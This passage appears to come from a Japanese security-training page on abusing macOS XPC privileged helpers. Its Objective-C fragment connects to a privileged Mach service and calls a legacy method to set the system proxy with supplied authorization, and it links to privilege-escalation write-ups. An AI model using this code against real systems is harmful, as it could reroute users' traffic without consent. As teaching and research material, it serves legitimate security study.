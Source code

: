 ```objectivec
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
[xpcConnection setRemoteObjectInterface:xpcInterface];
[xpcConnection resume];

// Handle errors for the XPC connection
id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
NSLog(@"[-] Connection error");
NSLog(@"[-] Error: %@", error);
}];

// Log the remote proxy and connection objects
NSLog(@"Remote Proxy: %@", remoteProxy);
NSLog(@"XPC Connection: %@", xpcConnection);

// Use the legacy method to configure the proxy
[remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
NSLog(@"Response: %@", error);
}];

// Allow some time for the operation to complete
[NSThread sleepForTimeInterval:10.0f];

NSLog(@"Finished!");
}
```
## 他のXPC特権ヘルパーの悪用

- [https://blog.securelayer7.net/applied-endpointsecurity-framework-previlege-escalation/?utm_source=pocket_shared](https://blog.securelayer7.net/applied-endpointsecurity-framework-previlege-escalation/?utm_source=pocket_shared)

## 参考文献

- [https://theevilbit.github.io/posts/secure_coding_xpc_part1/](https://theevilbit.github.io/posts/secure_coding_xpc_part1/)

{{#include ../../../../../banners/hacktricks-training.md}}
